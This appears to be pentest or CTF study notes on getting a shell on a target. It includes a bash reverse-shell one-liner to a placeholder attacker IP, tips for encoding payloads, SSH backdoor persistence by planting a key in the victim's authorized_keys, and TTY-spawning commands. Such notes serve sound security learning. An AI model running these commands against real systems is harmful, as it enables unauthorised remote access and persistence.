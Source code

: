```yaml
---
sort : 2
---
```


# Get a Shell

## Reverse Shells    

A reverse shell, also known as a remote shell or “connect-back shell,” takes advantage of the target system's vulnerabilities to initiate a shell session and then access the victim's computer.

Mostly this is done by uploading the reverse shell as a file, or abusing an RCE vulnerability to execute it directly.

[generate a reverse shell](https://www.revshells.com/)

[pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)

```note
some times thereverse shell doesn't work, why ?? 

* if it is a bash reverse shell, e.g. bash -i >& /dev/tcp/10.10.x.x/1234 0>&1 , try precede it with `bash -c` 


* try URL encoding / double URL encoding


* quotations conflict, how to deal with it ??
    * embrace the whole payload with double qoutes, then escape the inside ones
    
    * there is also some tools that ask you to pass the payload as an argv, so make sure how they gonna receive it (inside a double or a single qoutes ??)
```


<br><br>



## SSH 

SSH or Secure Shell or Secure Socket Shell,  is a network protocol that gives users a secure way to access a computer over an unsecured network.

### Using Compromised Password OR Reuse Misconfiguration OR Private Key Leakage : 

```bash
$ ssh victim@Host
    password : ******* 

# OR 

$ chmod 600 PrivateKey
$ ssh -i PrivateKey victim@Host
```


### Connecting Via SSH is Better ? (.ssh)

you already having a shell ...  

```bash
# On the victim machine

# if you can write on the user dir (create files/dirs)
$ mkdir ".ssh"; cd .ssh ; touch authorized_keys
```

```bash
# On the attacker machine

$ cd /tmp; ssh-keygen  
    # Generating public/private rsa key pair.
    Enter file in which to save the key (/home/o54ma/.ssh/id_rsa): TmpKey # file name to save the key 
    Enter passphrase (empty for no passphrase):                           # no password 
    Enter same passphrase again:                                          # no password 


$ cat TmpKey.pub | xclip -selection c                                     # copy the public key
```

```bash
# Back to the victim side

$ echo "CTRL+V" >> authorized_keys
```

```bash
# Back to the attacker side

$ ssh -i TmpKey Username@Host
```


```note
why we are doing this ?? 

* better interactive shell experience 

* for SSH Tunneling if you don't have the password of the victim user 
```


<!-- ### BruteForce Attack

not recommended ^^ :star: -->


<br><br>



# Spawning a TTY shell 

```bash
# Python
$ python -c 'import pty; pty.spawn("/bin/sh")'
$ python -c 'import pty; pty.spawn("/bin/bash")'

# Script 
$ script /dev/null -c bash

# sh
$ /bin/sh -i

# bash
$ /bin/bash -i

# Echo
$ echo 'os.system('/bin/bash')'

# Perl
$ perl -e 'exec "/bin/sh";'

# From within VI
:!bash
```

```bash
$ export TERM=xterm-256color
$ export SHELL=BASH

# CTRL-Z
$ stty raw -echo; fg
# Enter twice
```